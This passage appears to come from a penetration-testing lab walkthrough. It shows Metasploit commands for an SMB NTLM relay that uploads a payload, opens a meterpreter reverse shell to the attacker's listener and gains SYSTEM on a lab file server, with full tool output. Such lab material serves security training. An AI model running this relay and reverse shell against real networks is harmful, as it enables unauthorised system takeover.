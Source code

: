 **Step 4**.

`msfconsole -q`, `search smb relay`, `use exploit/windows/smb/smb_relay`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set SMBHOST 172.16.5.10`, `set SRVHOST 172.16.5.101`, `set LHOST 172.16.5.101`, `exploit`:
```
[*] Extracting NTLMSSP CHALLENGE from 172.16.5.10
[*] Forwarding the NTLMSSP CHALLENGE to 172.16.5.5:49180
[*] Extracting the NTLMSSP AUTH resolution from 172.16.5.5:49180, and sending Logon Failure response
[*] Forwarding the NTLMSSP AUTH resolution to 172.16.5.10
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \SEpydFfI.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \SEpydFfI.exe...
[*] Sending stage (175174 bytes) to 172.16.5.10
[*] Meterpreter session 1 opened (172.16.5.101:4444 -> 172.16.5.10:49159) at 2022-01-21 19:48:24 -0500
```

**Step 5**.

`jobs`, `jobs -K`.

`sessions`, `sessions -i 1`, `sysinfo`:
```
Computer        : FILESERVER
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

---
---
